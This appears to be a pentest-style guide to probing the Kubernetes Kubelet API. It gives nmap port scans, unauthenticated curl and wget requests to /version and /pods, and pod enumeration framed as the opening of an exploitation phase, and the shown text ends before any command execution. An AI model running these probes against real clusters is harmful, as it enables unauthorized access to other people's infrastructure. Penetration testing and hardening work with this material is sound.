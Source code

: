 This section demonstrates how to validate and exploit unauthorized access to the Kubelet API.

**Phase 1: Validation (Determining Vulnerability)**

**Step 1: Determine Kubelet API Endpoint**

```bash
# Attempt to discover the Kubelet API endpoint by checking common ports.
# Replace <target_node_ip> with the actual IP address of the Kubernetes node.
nmap -p 10250,10255,10248 <target_node_ip>
```

*   **Explanation:** `nmap` is used to scan the target IP address for open ports commonly associated with the Kubelet API (10250, 10255, 10248).
*   **Why:** This identifies which port the Kubelet is listening on.
*   **Expected Output:**  Output showing one or more of the ports (10250, 10255, or 10248) as "open".
*   **Contributes To:** Discovering the active Kubelet API endpoint.
*   **Variations:** If `nmap` isn't available, `telnet <target_node_ip> <port>` can be used to test connectivity to each port individually.

**Step 2: Check Kubelet API Access Without Authentication**

```bash
# Attempt to retrieve the Kubelet's API version.
# Replace <target_node_ip> and <kubelet_port> with the actual values.
curl -k https://<target_node_ip>:<kubelet_port>/version
```

*   **Explanation:** `curl` is used to make an HTTPS request to the Kubelet's `/version` endpoint without providing any authentication.  The `-k` flag disables certificate verification, which is often necessary in test environments.
*   **Why:** Checks if the API is accessible without authentication. A successful response indicates a vulnerability.
*   **Expected Output:** If successful, the command will return the Kubelet version information in JSON format, e.g., `{"major":"1","minor":"23","gitVersion":"v1.23.4","gitCommit":"abcdef1234567890","gitTreeState":"clean","buildDate":"2022-01-01T00:00:00Z","goVersion":"go1.17","compiler":"gc","platform":"linux/amd64"}`.  If you get an error like "Unauthorized", authentication is required and the vulnerability is less likely.
*   **Contributes To:** Validating the presence of unauthorized access.
*   **Variations:**  `wget --no-check-certificate https://<target_node_ip>:<kubelet_port>/version` can be used as an alternative to `curl`.

**Phase 2: Exploitation (Gaining Access and Executing Commands)**

**Step 3: List Running Pods (Enumeration)**

```bash
# List all pods running on the node through Kubelet API.
# Replace <target_node_ip> and <kubelet_port> with the actual values.
curl -k https://<target_node_ip>:<kubelet_port>/pods
```

*   **Explanation:**  This command retrieves information about all pods running on the node from the `/pods` endpoint.
*   **Why:** Enumerating running pods allows the attacker to identify potential targets for further exploitation (e.g., executing commands within a specific pod).
*   **Expected Output:** A JSON list containing detailed information about each pod, including its name, namespace, containers, and status.
*   **Contributes To:** Identifying target containers for command execution.
*   **Variations:** You can parse the JSON output with `jq` to filter and extract specific information (e.g., `curl -k https://<target_node_ip>:<kubelet_port>/pods | jq '.[].metadata.name'`).
